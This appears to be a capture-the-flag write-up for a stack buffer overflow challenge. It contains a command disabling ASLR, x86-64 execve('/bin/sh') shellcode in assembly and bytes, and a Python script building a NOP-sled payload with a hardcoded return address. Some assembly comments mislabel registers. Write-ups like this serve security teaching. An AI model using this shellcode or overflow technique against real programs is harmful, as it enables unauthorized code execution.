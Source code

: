 
## Configuration

Need to disable ASLR, stack protection, and canaries.

Disable ASLR with: `echo 0 > /proc/sys/kernel/randomize_va_space`


## Writeup

We write assembly shellcode that will call execve into the stack and then overwrite the return address of the function to point back to this shellcode on the stack.

To do this, we write a large nop sled and then the shellcode followed by filler and then the return address. We need to use the nop sled because we might not know the exact return address. Since ASLR is disables, it won't be too large a disparity so some trial and error should let us pwn the program.

The shellcode was crafter as such:

```asm
xor     rdx, rdx                ;Clear rax register
mov     qword rbx, '//bin/sh'   ;Move /bin//sh to rbx
shr     rbx, 0x8                ;Add null byte to end of string
push    rbx                     ;Push /bin//sh to stack
mov     rdi, rsp                ;Load address of /bin//sh to rdi
push    rdx                     ;Push null byte to stack to end argv array
sub     rsp, $8
mov     [rsp], rdi              ;Push address of /bin//sh to stack (push command was crashing)
mov     rsi, rsp                ;Load address of address of /bin//sh to rsi
mov     al, 0x3b                ;syscall number of execve is 59
syscall                         ;Call execve
```

and the python code to craft the input is here

```python
shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x48\x83\xec\x08\x48\x89\x3c\x24\x48\x89\xe6\xb0\x3b\x0f\x05"
ret_adr = "\xd5\xe8\xff\xff\xff\x7f\x00\x00"

nop_len = 500
payload = "\x90"*nop_len + shellcode + "a"*(0x400 - len(shellcode) - nop_len) + "b"*8 + ret_adr

print payload
```


**flag:** treeCTF{...}